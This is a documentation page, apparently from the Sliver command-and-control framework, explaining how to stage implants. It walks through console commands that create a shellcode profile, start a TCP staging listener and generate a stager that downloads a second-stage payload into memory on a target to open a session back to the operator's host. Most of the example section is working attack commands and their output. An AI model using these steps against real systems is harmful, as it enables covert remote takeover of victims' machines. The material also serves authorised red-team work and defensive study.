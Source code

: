 ## Overview

As sliver payloads can be pretty big (around 7MB), you may sometime require the use of stagers to execute your implant on a target system.

Sliver supports the `meterpreter` staging protocol over TCP and HTTP(S). This protocol is pretty straight forward:

- read the size of the stage 2 payload on the wire (either the first 4 bytes for the TCP stager, or the value of the `Content-Length` header for HTTP stagers)
- download the stage 2
- allocate the size read in the first step, and write the stage in memory

For this to work, we need the following pieces:

- a staging server (the Sliver server)
- a stage 2 payload (usually a Sliver shellcode, but can be in other formats)
- stagers (generated by `msfvenom`, the Sliver `generate stager` command, or a custom one)

## Example

Sliver implements staging by reusing the Sliver profiles feature. Profiles are sorts of implant blueprints that define a configuration to be reused by the `generate-profile` command.
The following command creates a new profile that we will use for our staging listener:

```
sliver > new-profile --name win-shellcode --mtls 192.168.122.1 --skip-symbols --format shellcode

[*] Saved new profile win-shellcode

sliver > profiles 

Name           Platform       Command & Control              Debug  Format      Obfuscation   Limitations
====           ========       =================              =====  ======      ===========   ===========
win-shellcode  windows/amd64  [1] mtls://192.168.122.1:8888  false  SHELLCODE   strings only  
```

We can now create a staging listener and link it to the profile:

```
sliver > stage-listener --url tcp://192.168.122.1:1234 --profile win-shellcode

[*] No builds found for profile win-shellcode, generating a new one
[*] Job 1 (tcp) started
sliver > jobs

ID  Name  Protocol  Port  
==  ====  ========  ====  
1   TCP   tcp       1234  
2   mtls  tcp       8888  
```

Sliver staging listeners only accept `tcp://` and `http://` schemes for the `--url` flag. The format for this flag is `scheme://IP:PORT`. If no value is specified for `PORT`, an error will be thrown out.

We can now generate a stager using the `generate stager` command:

```
sliver > generate stager --lhost 192.168.122.1 --lport 1234 --save /tmp

[*] Sliver stager saved to: /tmp/CIRCULAR_BRA
```

By default, the staging protocol used is TCP. The `--protocol` flag can be used to specify either `tcp` or `http` as the staging protocol.
The generated shellcode can now be used on the target system to start a new Sliver session.